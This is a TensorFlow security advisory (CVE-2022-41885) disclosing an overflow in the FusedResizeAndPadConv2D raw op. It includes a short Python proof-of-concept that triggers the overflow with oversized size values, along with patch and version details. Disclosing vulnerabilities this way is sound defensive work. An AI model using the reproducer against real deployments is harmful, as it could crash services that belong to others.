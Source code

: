 ## TFSA-2022-147: Overflow in `FusedResizeAndPadConv2D`

### CVE Number
CVE-2022-41885

### Impact
When [`tf.raw_ops.FusedResizeAndPadConv2D`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/conv_ops_fused_image_transform.cc) is given a large tensor shape, it overflows.
```python
import tensorflow as tf

mode = "REFLECT"
strides = [1, 1, 1, 1]
padding = "SAME"
resize_align_corners = False
input = tf.constant(147, shape=[3,3,1,1], dtype=tf.float16)
size = tf.constant([1879048192,1879048192], shape=[2], dtype=tf.int32)
paddings = tf.constant([3,4], shape=[2], dtype=tf.int32)
filter = tf.constant(123, shape=[1,3,4,1], dtype=tf.float16)
tf.raw_ops.FusedResizeAndPadConv2D(input=input, size=size, paddings=paddings, filter=filter, mode=mode, strides=strides, padding=padding, resize_align_corners=resize_align_corners)
```

### Patches
We have patched the issue in GitHub commit [d66e1d568275e6a2947de97dca7a102a211e01ce](https://github.com/tensorflow/tensorflow/commit/d66e1d568275e6a2947de97dca7a102a211e01ce).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou from the Secure Systems Lab (SSL) at Brown University.
